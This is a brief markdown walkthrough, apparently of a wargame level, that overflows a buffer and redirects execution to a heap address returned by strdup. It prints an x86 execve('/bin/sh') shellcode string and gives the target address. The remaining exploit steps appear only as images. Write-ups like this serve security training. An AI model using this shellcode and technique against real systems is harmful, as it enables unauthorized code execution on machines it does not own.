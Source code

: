 
# Walkthrough

> **The Goal:**make buffer overflow to launch a shell pogram, the idea is to exploit the heap because the stack it protected<br/>
> Filled the buffer then jump to the heap  address to executed the shellcode

1. ## Get the offset 
![Alt Offset](offset.png)


2. ## [Shellcode](http://shell-storm.org/shellcode/files/shellcode-575.html)
  `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

3. ## Get the return Address<br/>
I used `ltrace ./level2` to get the return address of strdup `0x0804a008` 

4. ## Exploit the buffer overflow 
![Alt Exploit](find.png)
